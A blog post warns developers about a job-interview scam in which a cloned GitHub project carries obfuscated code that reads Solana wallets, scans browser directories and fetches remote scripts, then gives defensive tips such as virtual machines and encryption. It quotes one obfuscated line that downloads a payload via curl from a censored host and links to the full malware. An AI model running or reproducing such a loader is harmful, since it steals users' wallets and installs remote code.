 ```yaml
---
aliases:
- /en/you-could-lose-all-your-crypto-in-a-job-interview/
authors:
- Eduardo Zepeda
categories:
- opinions
coverImage: images/tech-interview-hacking-obfuscated-code.jpg
date: '2024-12-14T22:24:22-06:00'
description: This is the story about a guy who was about to lose all his crypto and
  probably get hacked in a job interview for a remote position
keyword: ''
keywords:
- crypto
- interview
- github
- hacking
- docker
title: You Could Lose All Your Crypto In a Job Interview
---
```


The other day I was browsing Elon Musk's political propaganda machine, also known as X, and came across this gem of human shamelessness, an interviewer who nearly hacked one of his applicants.

## Running malware in job interviews.

The story goes like this: you're in need of a job, you're attending the interview remotely, [the recruiter asks you to clone a Github library](/en/opinions/dont-use-github-to-evaluate-developers-it-is-naive/) to find bugs in the code, an average interview for a developer position, all looks normal up to this point. Of course you, in need of a good job, decide to go through with the process.

Well, this guy was smart enough to read the code to be executed before blindly executing his voluminous *node_modules* directory. And what did he find? A succulent and delicious minimized code, also obfuscated and with hints of putting your computer to mine cryptocurrencies. 

Our friend was like George, curious, so he reformated the code and found:

- Lines that appear to search and read the contents of Solana wallets.
- Scripts that scan browser directories.  
- [API calls to an IP address](/en/software architecture/basic-characteristics-of-an-api-rest-api/), with no domain, some with no response at all and some that download obfuscated Python scripts (I guess it follows up the hacking process by installing a backdoor or some RAT).


If you want to ~~infect yourself~~ read the code, visit [the github repository](https://gist.github.com/jbrit/9a6525d086411a0fcffea202f368e780#file-initial-obfuscated-iife-js#?), I take no responsibility for anything though.

``` javascript
_0x42b722(“curl -Lo” + _0x157519 + “\” + “http://<censored>/pdown” + “\””, (_0x204dd7, _0x6e1c16, _0x52b515) => {
  if (_0x204dd7) {
    _0x517b73 = 0;
    return void _0x70af27();
  })
```

{{<ad>}}

## How do we avoid falling into these traps?

I don't plan to stand alone in the drama. This is about offering some practical solutions so that script kiddies don't make fun of you:

### **Use a different device**.

The most comfortable option, but also the most expensive, keep your devices separate, use one computer for work and technical interviews and another for your personal stuff, cryptocurrencies included. 

**Read the code, whenever possible**.

Recruiter sends you a script? Examine it carefully before you run it. Yes, I know, sometimes the code is too long or obfuscated, but if you have some experience, you can rapidly examine the screen with your eyes and spot the most obvious red flags. Of course, you can't waste all afternoon on this especially if you're in a real interview or value your time.

### **Use a virtual machine**.

Mount a virtual machine, either Virtual Box or Gnome Boxes, on Linux, or a [completely isolated Docker container](/en/docker/the-most-useful-and-basic-docker-commands/), if you don't mind not having a graphical interface. 

Another option available, and my personal favorite: a live USB with the distribution of your choice (Debian, Fedora, or whatever you want), 

That way, the worst that can happen is that they infect your virtual machine and not your real computer with all your personal information. Just be careful with shared volumes! If you mount the hard drive that contains sensitive information in the VM, you're toast.

**Encrypt your sensitive information**.

Here comes in the classic advice from old-school IT veterans: **encrypt your important data**. If someone manages to access your collection of kitten memes,it will be just a garbage of non-sense zeroes and ones. 

I don't plan to offer details because there is already too much information on the internet about GPG and its alternatives, Google GPG or read the manual directly, if you are not that familiar with the terminal or don't want to become a Linux or math nerd, there are tools like Kleopatra, which could make cryptography more intuitive to use.

## Don't run arbitrary code on your personal machine.

Do you have better ideas to protect us from black hat interviews? Drop your tips on social media and tag me. I look forward to adding your suggestions to the post. 

If you want to read the full story give Elon's blog a visit.... I mean X. Edited: the owner of the account changed his privacy settings so now you can't watch the full conversation.
